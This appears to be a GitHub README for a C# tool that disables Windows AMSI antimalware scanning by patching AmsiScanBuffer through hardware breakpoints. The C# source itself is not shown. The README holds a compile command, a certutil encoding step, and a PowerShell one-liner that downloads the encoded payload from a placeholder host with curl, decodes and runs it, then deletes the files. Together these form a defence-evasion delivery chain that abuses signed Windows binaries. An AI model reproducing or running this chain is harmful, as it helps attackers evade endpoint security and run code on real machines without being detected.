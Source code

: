 # Overview 

## This repo contains a C# implementation to patch AmsiScanBuffer utilizing hardware breakpoints. I used this code as a reference but optimized it and added comments for the code, https://gist.github.com/susMdT/360c64c842583f8732cc1c98a60bfd9e.

```
## How to compile
```ps
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:test.exe .\am_s.cs
```

## Encode the binary into a text file 
```ps
certutil -encode test.exe test.txt
```
## Execute the binary using Microsoft signed binaries
```ps
Start-Process -FilePath curl -ArgumentList "http://<IP>/test.txt -o $($pwd.Path)\test.txt" -Wait; certutil -decode "$($pwd.Path)\test.txt" "$($pwd.Path)\test.exe"; Start-Process -FilePath "$($pwd.Path)\test.exe" -Wait; Remove-Item -Path "$($pwd.Path)\test.exe"; Remove-Item -Path "$($pwd.Path)\test.txt"
```
